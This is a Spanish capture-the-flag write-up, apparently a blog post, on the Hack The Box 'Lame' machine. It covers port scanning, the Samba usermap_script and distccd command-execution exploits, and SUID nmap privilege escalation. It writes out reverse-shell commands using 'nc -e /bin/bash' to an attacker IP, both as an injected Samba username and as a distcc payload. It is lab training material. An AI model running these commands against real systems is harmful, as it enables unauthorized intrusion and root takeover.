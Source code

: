 ```yaml
---
layout: single
title: HackTheBox - Máquina Lame
excerpt: "Solución de la máquina Lame de Hack the Box"
date: 2021-03-18
classes: wide
header:
  teaser: /assets/images/htb/lame/lame.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Metasploit
---
```


<p align="center">
<img src="/assets/images/htb/lame/lame.png">
</p>

# Enumeración

Lanzamos un escaneo para ver los puertos que tiene abiertos y después lanzamos para obtener versiones y scripts básicos de nmap.

```bash
nmap -sS --min-rate 5000 -p- --open -T5 -v -n -Pn -oG allPorts 10.10.10.3

nmap -sV -sC -p21,22,139,445,3632 10.10.10.3 -oN targeted

```

Y obtenemos el siguiente resultado:

```text
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

# Explotación
Cuando empecé con esta máquina de HTB usé Metasploit por no tener experiencia. Cuando me propuse crear este contenido también empece a ver vídeos y streams de gente que se dedica al mundo de la Ciberseguridad para adquirir conocimientos. Viendo un vídeo acerca de esta máquina, vi que también se podía hacer de forma manual por lo que también lo voy hacer de esta forma para adquirir ese conocimiento.

Después de analizar el FTP mediante el acceso anónimo y ver que no hay nada disponible, analizamos *samba y el software distcc* como posible vector de ataque.

## Automática (Metasploit)

Buscamos la versión de samba 3.0.20 con searchsploit.

```bash
searchsploit samba 3.0.20
```

Y obtenemos el siguiente resultado:

```bash
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                            | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- 
```

Abrimos metasploit y usamos `use exploit/multi/samba/usermap_script`. Configuramos las opciones con `show options` y el payload `show payload` (`cmd/unix/reverse`), el siguiente paso es ejecutar con `exploit` y obtenemos la reverse shell. Ya solo quedaría obtener la flag de usuario y de root, ya que de este modo somos root.

## Explotación Manual

Como he mencionado antes esta parte la vi en el writeup de s4vitar, por lo que voy a reproducirla para aprender de forma manual.

### Samba

Buscamos un script mediante `searchsploit samba 3.0 command execution` y obtenemos lo siguiente:

```bash
searchsploit samba 3. command execution
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit)     | unix/remote/16320.rb
---------------------------------------------------------------------------------------------------------------------
```

Mediante `smbmap -H 10.10.10.3 ` vemos los permisos de los recursos compartidos de la máquina:

```bash
smbmap -H 10.10.10.3      
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Nos conectamos al directorio /tmp `smbclient //10.10.10.3/tmp --option="client min protocol=NT1" -N` utilizando null sesión, también hay que añadirle el parámetro --option ya que si no lo pones te saltara un error de autenticación.

Analizando el script vemos que hace un login con el siguiente usuario:

```bash
`username = "/=`nohup " + payload.encoded + "`"`
```

Estando conectado al recurso compartido, lanzamos un login con el siguiente formato para poder obtener una conexión vía netcat a nuestra máquina.

```bash
smb: \> logon "/=`nohup nc -e /bin/bash <ip_atacante> <puerto>`"
Password: (Damos enter)
```

### Distcc

Si hacemos un `searchsploit distcc` nos sale lo siguiente:

```bash
--------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)     | multiple/remote/9915.rb
--------------------------------------------------------------------------------------------- ---------------------------------
```
Como se puede ver hay un script pero es a través de Metasploit, para hacerlo de forma manual con [exploit github](https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py)

Ejecutamos con un whoami para probar:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c whoami
```

Cuando yo hice la prueba me daba el siguiente error:

```bash
[OK] Connected to remote service
a bytes-like object is required, not 'str'
[KO] Exception Raised
```

Por lo que tuve que editar para añadir el str.encode() y el decode en la siguientes variables:

<p align="center">
<img src="/assets/images/htb/lame/distcc_exploit.png">
</p>

Cuando el lanzamiento ha sido satisfactorio obtenemos por pantalla el usuario `daemon`, el siguiente paso es lanzar una shell hacia nuestra máquina:

```bash
python3 distccd_rce_CVE-2004-2687.py -h 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash <ip> <puerto> &'
```

<span style="color:#d7f798">[IMPORTANTE] El nohup se pone para que cuando se lanza un exploit que te da una sesión y se cierra, se quede en segundo plano en otro proceso. Cuando obtenemos la reverse shell hacemos el tratamiento de la shell.</span>

Desde la carpeta home hacemos la búsqueda de la flag de user.txt y la mostramos con:

```bash
find \-name user.txt 2>/dev/null | xargs cat
```

# Escalada de privilegios desde la opción de distcc

Para escalar privilegios en esta máquina hacemos uso de los suids:

```bash
find \-perm -4000 2>/dev/null
```
Para esta máquina vamos a usar <b>./usr/bin/nmap</b> para elevar privilegios, para ello usamos [GTFOBINS](https://gtfobins.github.io) para obtener una shell con el binario nmap. 

En GTFOBINS nos dice que hay dos maneras pero mirando la versión de nmap, se puede utilizar la b) The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands

```bash
daemon@lame:/$ nmap --version

Nmap version 4.53 ( http://insecure.org )
```

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Y ya nos queda ver la flag de root.

